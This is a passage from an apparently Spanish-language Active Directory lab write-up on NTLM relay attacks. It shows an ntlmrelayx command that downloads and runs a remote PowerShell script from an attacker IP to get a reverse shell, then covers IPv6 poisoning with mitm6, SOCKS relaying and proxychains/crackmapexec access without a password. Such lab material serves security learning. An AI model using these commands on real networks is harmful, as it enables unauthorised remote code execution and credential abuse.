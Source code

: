 Se ejecuta el impacket-ntlmrelayx para que realice el comando pasado, que descarga e interpreta el archivo malicioso visto anteriormente. Dando como resultado una consola de comandos sobre la máquina.

```bash
impacket-ntlmrelayx -tf target.txt -smb2support -c "powershell IEX(New-Object Net.Webclient).downloadString('http://192.168.140.128:8000/powerscript.ps1')"
```

![Reverse shell ntlmrelay](reverse-ntlmrelayx.png){: width="972" height="589" }
_Reverse shell ntlmrelay_

## IPV6

Algunos administradores bloquean el ataque anterior estableciendo reglas de seguridad para IPV4, sin embargo, se olvidan de fortificar el protocolo IPV6. Por defecto, las máquinas Windows consultan primero el protocolo IPV6, por lo que se puede envenenar todo el dominio con la herramienta [**mitm6**](https://github.com/dirkjanm/mitm6), que spoofea todas las peticiones de los equipos en la red para establecer el equipo atacante como servidor DNS y puerta de enlace. Con esto, cuando un usuario con rol de administrador en un equipo busca un recurso no valido, podemos redirigir el tráfico mediante [**proxychain**](https://github.com/haad/proxychains), al equipo vulnerado, sin necesidad de contraseña.

Se ejecuta el spoofing de la red con mitm6, pasando el dominio como parámetro en el comando:

```bash
mitm6 -d jcaballer.local
```

Se ejecuta ntlmrelayx sobre el protocolo IPv6, estableciendo un túnel entre el atacante y protocolo smb de la victima

```bash
impacket-ntlmrelayx -6 -wh 192.168.140.128 -t smb://192.168.140.131 -socks -smb2support
```

Se indica a la herramienta proxychains que debe crear un túnel por el puerto 1080 en la ip local del atacante 127.0.0.1.

Se ejecuta el comando que se desea para la máquina objetivo:

```bash
proxychains cme smb 192.168.140.131 -u 'jcaballero1' -p 'sincontrasena' -d 'jcaballer'
```

Como se puede observar da igual con que credenciales se intente autenticar, ya que se obtendrán del usuario que busca un recurso no legitimo sobre el protocolo. 

![Ntlmrelayx sobre ipv6](ntlmrelayx-ipv6.png){: width="972" height="589" }
_Ntlmrelayx sobre ipv6_

# Situación actual 

La situación actual que nos encontramos en el entorno es la siguiente:

![Estado tras NTLMRELAY](estado-2.png){: width="1232" height="554" }
_Estado tras NTLMRELAY_
